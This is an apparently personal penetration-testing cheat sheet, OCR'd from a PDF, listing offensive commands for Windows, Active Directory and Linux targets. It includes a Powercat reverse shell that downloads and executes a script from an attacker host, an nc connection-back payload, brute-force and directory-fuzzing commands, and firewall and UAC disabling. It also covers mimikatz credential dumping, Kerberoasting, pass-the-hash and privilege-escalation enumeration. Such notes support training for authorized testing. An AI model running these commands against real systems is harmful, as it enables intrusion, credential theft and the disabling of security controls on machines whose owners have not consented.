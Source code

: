 nmap
for ip in {249,248,247,246,245,191,189}
do
mkdir -p OS$ip
#nmap -Pn -sT -p- -oN OS$ip/nmap.txt 192.168.181.$ip --min-rate=10000
nmap -Pn -sT -p- -sC -sV -A -oN OS$ip/nmap-CVA.txt 192.168.181.$ip
done
sudo nmap -Pn -sT -p- -oN osx/scan_T.txt 192.168.x --open
sudo nmap -Pn -sC -sV -p- -oN osx/scan_CV.txt 192.168.x
msfvenom
windows/meterpreter_reverse_tcp
windows/meterpreter_bind_tcp
windows/shell_reverse_tcp
windows/shell_bind_tcp
cmd/unix/reverse_bash
cmd/unix/reverse_netcat
Directory Brute Force with Gobuster
# -x txt,ini,conf,bak,pdf,php,asp,aspx,jsp,do
gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x pdf
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 $IP:8080/FUZZ
hydra
hydra -l admin -P passwords.txt $IP http-post-form
"/login.php:username=^USER^&password=^PASS^:Login Failed" -t 1 -V
Inspecting HTTP Response Headers
curl -I $URL
Encode URL
CMD="nc 192.168.45.196 443"
PAYLOAD=$(echo -n $CMD | jq -sRr @uri)
curl --data-urlcode "query=$PAYLOAD"
Wordpress scan
wpscan --url $URL --enumerate p --plugins-detection aggressive -o websrv1/wpscan
wpscan --url $URL -e ap --plugins-detection aggressive --detection-mode aggressive
1Windows
CMD or PowerShell
Powershell or command line
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
Test Port
powershell -c "Test-NetConnection -Port 445 $KALI"
STR="Test-NetConnection -Port 443 $KALI"
ENC=$(echo -n $STR | iconv --to-code=UTF-16LE | base64 -w 0)
echo "powershell -w hidden -nop -enc $ENC"
echo -n "powershell -w hidden -nop -enc $ENC" | xclip -selection clipboard
Powercat reverse shell
powershell -w hidden -c "IEX(New-Object
System.Net.WebClient).DownloadString('http://$KALI:443/powercat.ps1');powercat -c $KALI -p 445
-e cmd"
Server on Kali
python -m http.server -b $KALI -d ./ 80
wsgidav --root=./ --auth=anonymous --host $KALI --port=80
Tools
nc.exe, mimikatz.exe, chisel.exe, Rubeus.exe, Seatbelt.exe, winpeas.exe, PowerUp.ps1,
PrivescCheck.ps1, Watch-Command.ps1
Manual
netsh advfirewall show allprofiles
netstat -anp tcp
net user
net localgroup
net localgroup Administrators
net accounts
systeminfo
set
dir /a c:\
dir /a c:\users
cd c:\users
dir /s /a /b ConsoleHost_history.txt
dir /s /a:-d /b c:\users\%USERNAME%\Desktop
dir /s /a:-d /b c:\users\%USERNAME%\Documents
dir /s /a:-d /b c:\users\%USERNAME%\Downloads
powershell -c "Get-ChildItem -Path c:\users -Exclude *.url,*.lnk,*.searchconnector-ms,
desktop.ini -File -Recurse -ErrorAction SilentlyContinue"
powershell -c "Get-ChildItem -Path c:\users -File -Force -Depth 2 -ErrorAction SilentlyContinue"
dir "C:\Program Files"
dir "C:\Program Files (x86)"
whoami /priv
whoami & ipconfig & type c:\users\%USERNAME%\desktop\local.txt
Powershell
Format-List * | Out-File -FilePath OutFile.txt
Get-ChildItem -Path C:\Reference\Afile.txt, C:\Reference\Images\Bfile.txt |
Compress-Archive -DestinationPath C:\Archives\PipelineFiles.zip
Sheduled task
schtasks /query /fo list /v > schtasks.txt
powershell -c "Get-ScheduledTask"
Tasklist
tasklist /fo list /v > tasklist.txt
wmic process get Processid,Name,CommandLine,ExecutablePath /format:list > wmic_process.txt
powershell -c "Get-Process | Select-Object -Property Id,Name,ProcessName,Path"
2Services
Get-Service
Get-WmiObject -ClassName Win32_Service | Select-Object -Property Name,Path,Startmode
Get-CimInstance -ClassName Win32_Service | Select-Object -Property Name,Path,Startmode
net start > net_service.txt
sc query type= service > sc_service.txt
wmic service get Name,pathname,startmode /format:list
> wmic_service.txt
Automatic
cd c:\users\public
powershell -ep bypass
iwr -uri $KALI/PowerUp.ps1 -outfile PowerUp.ps1
Import-Module .\PowerUp.ps1
Invoke-AllChecks
iwr -uri $KALI/PrivescCheck.ps1 -outfile PrivescCheck.ps1
Import-Module .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML
curl $KALI/Seatbelt.exe -o Seatbelt.exe
Seatbelt.exe -group=all -outputfile="Seatbelt.txt"
curl $KALI/winpeas.exe -o winpeas.exe
winpeas.exe quiet
curl.exe http://$KALI/Watch-Command.ps1 -o Watch-Command.ps1
powershell -ep bypass
Import-Module .\Watch-Command.ps1
Get-Process <PRG> -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds
30
powershell -c "Get-ItemProperty 'HKLM:
\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*'| select displayname"
powershell -c "Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*' |
select displayname"
Post exploitation
dir /s /a:-d /b c:\users\Administrator\Desktop
dir /s /a:-d /b c:\users\Administrator\Documents
dir /s /a:-d /b c:\users\Administrator\Downloads
powershell -c "Get-ChildItem -Path c:\users -Exclude *.url,*.lnk,*.searchconnector-ms,
desktop.ini -File -Recurse -ErrorAction SilentlyContinue"
powershell -c "Get-ChildItem -Path c:\users -File -Force -Depth 2 -ErrorAction SilentlyContinue"
whoami & ipconfig & type c:\users\Administrator\desktop\proof.txt
mimikatz.exe
Pivot and Forward port
chisel.exe client $KALI:2306 R:socks $LHOST:443:$KALI:80
chisel server –host=$KALI –port=2306 --reverse
Firewall
netsh advfirewall show allprofiles
powershell -c "Get-NetFirewallProfile"
netsh advfirewall set currentprofile ?
netsh advfirewall set allprofiles state off
netsh advfirewall firewall add rule name="ALLOW_IN_LPORT" protocol=TCP dir=in localip=$LHOST
localport=$LPORT action=allow
netsh advfirewall firewall delete rule name="ALLOW_IN_LPORT"
UAC
PS C:> Import-Module NtObjectManager
PS C:> Get-NtTokenIntegrityLevel
meterpreter >> getsystem
meterpreter >> search UAC >> use exploit/windows/local/bypassuac_sdclt
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t
REG_DWORD /d 0 /f
3reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t
REG_DWORD /d 1 /f
RDP
Allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fDenyTSConnections /t REG_DWORD /d 0 /f
Deny
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fDenyTSConnections /t REG_DWORD /d 1 /f
SMB Share files
Kali
impacket-smbserver
-username kali -password 'P@ssw0rd123!' -smb2support share share/
Windows
$password = ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("kali", $password)
New-PSDrive -name share -Root \\$KALI\share -Credential $cred -PSProvider filesystem
Active Directory
Tools
PowerView.ps1, SharpHound.ps1,
Rubeus.exe
Enumeration
powershell -ep bypass
curl.exe http://$KALI/PowerView.ps1 -o PowerView.ps1
Import-Module .\PowerView.ps1
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
Find-LocalAdminAccess
Find-DomainShare
Get-NetUser -SPN | select samaccountname,serviceprincipalname
curl.exe http://$KALI/SharpHound.ps1 -o SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
Attacks AD
curl.exe http://$KALI/Rubeus.exe -o Rubeus.exe
.\Rubeus.exe asreproast /outfile:asreproast.hash /format:hashcat /domain:$DOMAIN
.\Rubeus.exe kerberoast /outfile:kerberoast.hash /format:hashcat
impacket-GetNPUsers -request -dc-ip $DC $DOMAIN/$USER:$PASS -outputfile asreproast.hash -format
hashcat
impacket-GetUserSPNs -request -dc-ip $DC $DOMAIN/$USER:$PASS -outputfile kerberoast.hash
mimikatz # lsadump::dcsync
impacket-secretsdump
$password = ConvertTo-SecureString "P@ssw0rd!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
crackmapexec smb $IP -u $USER -p $PASS --local-auth
crackmapexec smb $IP -u $USER -p $PASS -d $DOMAIN --shares
impacket-smbclient -hashes 32'0:$NTLM $DOMAIN/$USER@$IP
evil-winrm -i $IP -u $USER -p $PASS
impacket-psexec $DOMAIN/$USER:$PASS@$IP
impacket-mssqlclient $DOMAIN/$USER:$PASS@$IP -windows-auth
xfreerdp /u:$USER /p:$PASS /v:$IP /d:$DOMAIN /cert-ignore
rdesktop -i $IP -u $USER -p $PASS
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
impacket-secretsdump $DOMAIN/$USER@$IP -hashes :$NTLM -outputfile secrets
5Linux
Upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export SHELL=/bin/bash
export TERM=tmux-256color
stty rows 53 columns 189
reset
tcpdump
sudo tcpdump -i tun0 src host 192.168.184.150 and port 4444
sudo tcpdump -i tun0 src host 192.168.184.150 and port dst 4444
sudo tcpdump -nvvvXi tun0 tcp port 8080
sudo tcpdump -i lo -A | grep "pass"
sudo tcpdump -i tun0 udp port 53
sudo tcpdump -i tun0 tcp port 443 and src host 192.168.x.y
Enumeration manualy
id
cat /etc/passwd | grep sh$
ls -al /etc/shadow
ls -al /etc/passwd
cat /etc/issue
cat /etc/os-release
arch
uname -a
ss -ntpl
ip a
cat /etc/iptables/rules.v4
cat /etc/network/interfaces
ls -al /etc/cron*
cat /etc/crontab
ls -al /var/log/cron.log
ls -al /var/log/syslog
ls -al /home/*
env
find / -type f -writable $USER 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type f -user $USER 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type f -perm -o+w 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type d -perm -o+w 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
find / -type f -perm -u=s 2>/dev/null | grep -v '^/proc\|^/sys\|^/snap'
getcap / -r 2>/dev/null
dpkg -l | grep compiler
ls -al /
whoami & ip a & cat /home/$USER/local.txt
Enumeration automatique
curl $KALI/linpeas.sh -o linpeas.sh
curl $KALI/pspy64 -o pspy64
watch -n 1 "ps -aux | grep pass"
while true; do sleep 1 && ps -aux | grep pass; done
top -u root -c => filter command=/bin/sh
sudo -l
get proof
6whoami & ip a & cat /root/proof.txt
Find all files containing a specific text
grep -Rnw '/path/to/somewhere/' -e 'pattern'
-r or -R is recursive ; use -R to search entirely
-n is line number, and
-w stands for match the whole word.
-l (lower-case L) can be added to just give the file name of matching files.
-e is the pattern used during the search
generate a hash using the crypt algorithm
openssl passwd w00t
mkpasswd -m md5crypt
Tmux
Configure
cat ~/.tmux.conf
set -g history-limit 10000
set -g allow-rename off
set-window-option -g mode-keys vi
Save pane
:capture-pane -S -
:save-buffer /path/filename.txt
tmux capture-pane -pS - >> /path/filename.txt
